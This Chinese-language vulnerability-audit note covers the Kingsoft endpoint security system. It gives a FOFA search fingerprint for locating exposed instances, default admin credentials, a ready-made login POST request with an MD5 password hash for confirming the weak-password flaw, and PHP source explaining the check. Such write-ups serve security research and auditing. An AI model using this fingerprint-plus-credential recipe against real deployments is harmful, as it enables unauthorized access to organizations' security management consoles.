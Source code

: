 # 金山终端安全系统

## 环境配置

### fofa指纹

app="猎鹰安全-金山终端安全系统"

### 下载安装

v8版本：https://duba-011.duba.net/netversion/Package/KAVNETV8Plus.iso

v9版本：https://duba-011.duba.net/netversion/Package/SecManage.iso

上述iso下载后直接解压，得到相应的文件夹，找到其中的exe文件。v8版本中KANUSSetup.exe是升级服务器安装包，KANSCSetup.exe是安全系统中心安装包，安装完毕后你会发现也一同安装了金山毒霸杀毒软件，v9情况类似。

环境安装为一体安装包，直接双击点exe，设定完安装目录安装即可自动安装。源码在Console目录下的web根目录。代码没有进行加密，直接拷贝审计即可。授权到期后不影响程序访问和正常测试使用。

###  账户密码

默认登陆密码admin/admin，登陆后强制修改（admin/admin123@)，默认开启验证码。但v8+版本以下该机制不存在，且部分版本即使强制要求修改了密码，也可用旧密码登陆系统，因此存在【[wooyun-2015-099884-金山 V8 终端安全系统默认弱口令漏洞](http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-099884)】。

```txt
POST /inter/ajax.php?cmd=
get_user_login_cm{"get_user_login_cmd":{"name":"admin","password":"21232f297a57a5a743894a0e4a801fc3"}} HTTP/1.1
```

post一段json格式的代码到特定的路径，若返回包状态码为200并且有关键字段userSession即表示存在弱口令。在index.php页面中引入的`inter/common/isFirst.php`页面`isFirst`方法验证：

```php
//index.php
if ($_SESSION["userName"]=="admin" and $mysqlStat == 1) {
        //$isFirst = isFirst(); # true:admin没改过密码 flase:admin改过密码
        if ($isFirst) {
            $firstate="0";
        } else {
            $firstate="1";
        }
    }
//inter/common/isFirst.php::isFirst()
function isFirst(){
    $data = array(
        "match_pass" => array("pass" => "2d8cc94a8c8b5ca7400969c5b2e572c1", "name" => "admin")
    );
    $post = json_encode($data,JSON_UNESCAPED_UNICODE);
    $re = curl_post_http("http://127.0.0.1:6869/route2lua", "match_pass=$post");
    $re = json_decode($re, true);
    if (intval($re["nResult"]) == 0) {
        return true;
    }
    return false;
}
```
